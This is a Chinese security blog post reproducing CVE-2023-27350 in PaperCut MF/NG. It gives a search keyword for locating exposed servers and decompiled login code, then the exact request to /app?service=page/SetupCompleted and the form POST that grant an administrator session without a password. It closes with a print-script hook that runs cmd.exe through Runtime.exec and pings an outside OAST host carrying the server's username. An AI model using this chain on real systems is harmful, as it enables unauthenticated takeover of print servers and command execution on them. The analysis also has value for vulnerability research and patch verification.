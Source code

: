 #  PaperCut MF SetupCompleted 远程命令执行漏洞 CVE-2023-27350   
原创 PeiQi文库  PeiQi文库   2023-05-02 13:50  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUdjXwQ2vk0wTGCIb9icVu77fVMtVPreeicnJrIwwfmApVdIID1JrXjeVA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cU28BTMkJPoo8JIicIXC49BCdyApGtNkygZJfZicxapw0X9LySnLXc8SIg/640?wx_fmt=png "")  
## 漏洞描述  
  
PaperCut MF NG 中 SetupCompleted接口中存在未授权访问漏洞，攻击者通过漏洞可以获取后台管理员权限，通过配置脚本JAVA扩展类，可以达到远程命令执行控制服务器  
## 漏洞影响  
  
PaperCut MF
PaperCut NG  
## 网络测绘  
  
"papercut"  
## 漏洞复现  
  
登陆页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUY6QymL6p9G3qggA6icF8ia0voGbdMehZicQLrBJNH3xHOnJ7LLkU8W4vg/640?wx_fmt=png "")  
  
反编译 pcng-server-web-22.0.4.jar，可以看到登陆时验证方法位于  
```
biz/papercut/pcng/web/pages/Home.class

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUMZ863FOG7y1lH6O1kTKGMn1nPskEOSo6NYOyLXbsZTXEs4BS1Y2VxQ/640?wx_fmt=png "")  
  
其中含有 Google microsoft 等多种方法登陆，统一使用 performLogin 方法进行用户权限验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUYjc4xaQDAmvbk936JLT5Z8mibibl6QdBfN6dEDPcaALF1yZm7dzNn57g/640?wx_fmt=png "")  
```
public Boolean performLogin(String username, @Nullable LoginType preferredLoginType, boolean sso) {
        return (Boolean)this.transactionHelper.runInTransaction(() -> {
            LoginType loginType = this.deriveLoginType(username, preferredLoginType);
            if (loginType != null) {
                AccessRightList accessRights = this.authenticationManager.getUserRights(username);
                accessRights = this.deriveAccessRights(loginType, accessRights);
                return this.loginUser(username, accessRights, loginType, sso);
            } else {
                this.applicationLogManager.logWarn(this.getClass(), "Home.UserLoginFailureUnknownUser", new String[]{username});
                this.setErrorMessage(this.getMessage("LOGIN_DENIED_UNKNOWN_USER"));
                return false;
            }
        });
    }

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUdZ7IqZ3icRr1XKq2M8LOFWzpcm9PvoXoHAJKVSq7dRElnmEdU9Tp8icg/640?wx_fmt=png "")  
  
最后走到 loginUser方法中，根据用户登陆权限重定向到用户页面  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUXD8Km8l5bUxwuYyjdibjALhpkUMOKAGODJMiaabPCOPMeyricqGEvdmLg/640?wx_fmt=png "")  
  
漏洞出现在用户设备配置页面处，其中可以看到调用的方法也是 performLogin  
```
public void formSubmit(IRequestCycle cycle) {
        SetupData setupData = this.getSetupData();
        this.getAnalyticsConfigurationService().setEnabled(this.isAnalyticsEnabled());
        this.getAnalyticsConfigurationService().adminNotified();
        this.clearSetupData();
        Home homePage = (Home)cycle.getPage("Home");
        homePage.setJavaScriptEnabled(this.isJavaScriptEnabled());
        homePage.performLogin(setupData.getAdminUserName(), LoginType.Admin, false);
    }

```  
```
biz/papercut/pcng/web/setup/SetupCompleted.class

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cU0ibibMQFQ7BpvSgN4IrPvia6Ylnib3liaCCetK552D4em0VjgIZXoicGpqPA/640?wx_fmt=png "")  
  
主要注意这一部分代码的参数, 代表登陆的权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUQZ60XHrhZd1Nj6QyAJF1ZMTL9pTt7IJic0uFb1sXHVCa2ATI9icrqW8g/640?wx_fmt=png "")  
```
homePage.performLogin(setupData.getAdminUserName(), LoginType.Admin, false);

private String _adminUserName = "admin";

public String getAdminUserName() {
        return this._adminUserName;
    }

```  
  
这里固定的登陆权限为 Admin管理员权限，通过调用这个方法就可以获取管理员的后台权限  
```
/app?service=page/SetupCompleted

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUIGOUNawZQpv3icRZ6s3CZPwIzefGHMXrB8VWO8iaZib79XO3RzyNHm6Og/640?wx_fmt=png "")  
```
POST /app
Cookie: JSESSIONID=xxx

service=direct/1/SetupCompleted/$Form&sp=S0&Form0=$Hidden,analyticsEnabled,$Submit&$Hidden=true&$Submit=登录

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUXeu90wqVuR35tlWmhZZpwFt6Ygz32J2iarbyCTshkfkw09e3aXhstDA/640?wx_fmt=png "")  
  
发送请求后就会302跳转到管理员用户页面，对应的请求调用页面也就是第一次配置的请求页面，点击登陆提交请求就可以通过调用方法 performLogin 以管理员权限登陆  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUiaJ5rDjUJr8r8AF96cR205mKfiaYUKz6nwG45UibQwBQ7JRXIcENtmIHw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUDXoff5F5OOXm0Gzmrf2sbWUjTqGibFBekaFkfC8hibWMWficFhuc5J8pw/640?wx_fmt=png "")  
  
在后台中存在脚本调用方法，根据官网配置打开扩展的 Java 类  
```
https://www.papercut.com/kb/Main/EnablingPrintScriptingDeviceScripting#using-extended-java-classes-in-scripts

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUnyTtl38I5DGImqOnsLNfdxsBzWmfac6xOgDlB1PY5iaR0u28x7cqPtg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUPBr7cJ4on495JGmtwFIXmfY9nCwYhZDnsQhsicguEnACMUbSdqAHLfw/640?wx_fmt=png "")  
  
再通过打印机的脚本编写就可以达到组合RCE  
```
function printJobHook(inputs, actions) {}
java.lang.Runtime.getRuntime().exec('cmd.exe /C ping %USERNAME%.cgvpkz72vtc0000ge0eggep5j9oyyyyyb.oast.fun');


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUtyaEZaEK4MS0muznfiaps8OBeDWAU7APPEfcZZ0wQYl9evTs2FkVibiaA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUyYJdHb3SbOb1pz9rLCZp16wNaHEXyZjoiaCVrTE2AKwVRsgI5ZY5TuQ/640?wx_fmt=png "")  
## 关注公众号  
```
下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
想要加入交流群的师傅公众号点击交流群找WgpsecBot机器人拉你啦～

```  
  
  
  
  
  
## 支持作者  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUHaGcUPiaR17WnC5FicjE6xqDllNmOlOmAKIlLuzMic91KIaCuun9OmyxQ/640?wx_fmt=png "")  
## 关于文库  
```
在线文库: https://wiki.peiqi.tech (暂时关闭个人用户使用)
Github: https://github.com/PeiQi0/PeiQi-WIKI-Book 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUVZad6mBl0ice2KWT3SY5x7UTF2uoAdP1cuLibFsZw8a30kRhk0xAzI8Q/640?wx_fmt=png "")  
## 文库动态  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4F46uEyehk0IH7lHFLF4cUQdDUBqqYJEfFqwcJiaVhIRA9VGMMs5wicbOaa0ibQCD2BH9ShmnT1yT3w/640?wx_fmt=png "")  
  
  
  
